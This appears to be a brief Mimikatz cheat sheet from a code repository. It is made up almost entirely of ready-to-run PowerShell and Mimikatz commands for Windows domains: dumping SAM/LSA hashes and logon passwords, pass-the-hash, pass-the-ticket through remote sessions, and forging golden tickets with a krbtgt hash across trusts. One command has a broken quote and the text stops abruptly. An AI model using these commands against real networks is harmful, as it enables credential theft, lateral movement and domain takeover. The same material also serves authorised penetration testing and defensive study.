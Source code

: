 Mimikatz resume.

## Dump Hashes

Dump do Sam - (**lsadump::sam**) - Local Administrator Hash

LogonPasswords - (**sekurlsa::logonpasswords**) - Domain Administrator Hash
 
## Users Hashes

With the exe

```ps1
./mimikatz.exe lsadump::lsa /patch
```

Script Invoke-Mimikatz.ps1

```ps1
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"' 
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /patch" "exit"' 
Invoke-Mimikatz -Command ‘"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /patch" "lsadump::sam"
```

## Pass-The-Hash (Add users in groups)

```ps1
sekurlsa::pth /user:xxxx /domain:xxxx /ntlm:xxxxx /run:powershell.exe
sekurlsa::pth /user:USERNAME /domain:DOMAIN /ntlm:HASH /run:COMMAND
Invoke-Mimikatz -Command '"sekurlsa::pth /user:xxxx /domain:xxxx /ntlm:xxxxxxx /run:powershell.exe"'
```

## Pass-The-Ticket (Unconstrained Delegation)

```ps1
Get-NetComputer -UnConstrained | select Name
Invoke-Command -ScriptBlock {Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::tickets /export"'} -Session $sess
Invoke-Command -ScriptBlock{Invoke-Mimikatz -Command '"kerberos:: ptt [...]"'} -Session $sess
Invoke-Command -Scriptblock{ls \\maquina.local\C$} -session $sess
```

## Privilege Across Trusts (Nedded krbtgt hash)

```ps1
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:ab.cd.local /sid:<SID of ab.cd.local> /krbtgt:hash do krbtgt /sids:<SID of cd.local> /ptt"'
```

SID and SIDS
